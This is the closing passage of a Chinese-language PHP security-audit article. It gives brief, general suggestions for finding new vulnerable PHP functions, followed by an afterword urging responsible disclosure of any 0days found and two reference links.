* fuzz php的函数，找到新的有问题的函数（不一定非要溢出的），如上一章的4.6的部分很多都可以简单的fuzz脚本可以测试出来
  
* 分析php源代码，发现新的漏洞函数“特性”或者漏洞。（在上一节里介绍的那些“漏洞审计策略”里，都没有php源代码的分析，如果你要进一步找到新的字典，可以在php源代码的基础上分析下成因，然后根据这个成因来分析寻找新的漏洞函数“特性”或者漏洞。）（我们以后会陆续公布一些我们对php源代码的分析）
  
* 有条件或者机会和开发者学习，找到他们实现某些常用功能的代码的缺陷或者容易忽视的问题
  
* 你有什么要补充的吗？ ：）
  

  
### 后话
  
本文是80vul的三大马甲：80vul-A，80vul-B，80vul-C集体智慧的结晶，尤其是80vul-B贡献了不少新发现。另外需要感谢的是文章里提到的那些漏洞的发现者，没有他们的成果也就没有本文。本文没有写“参考”，因为本文是一个总结性的文挡，有太多的连接需要提供限于篇幅就没有一一列举，有心的读者可以自行google。另外原本没有打算公布此文，因为里面包含了太多应用程序的0day，而且有太多的不尊重别人成果的人，老是利用从别人那学到的技术来炫耀，甚至牟取利益。在这里我们希望你可以在本文里学到些东西，更加希望如果通过本文你找到了某些应用程序的0day，请低调处理，或者直接提交给官方修补，谢谢大家！！
  

  
### 附录
  
[2] http://www.php-security.org/
  
[3] http://bugs.php.net/bug.php?id=40114
  

  

  
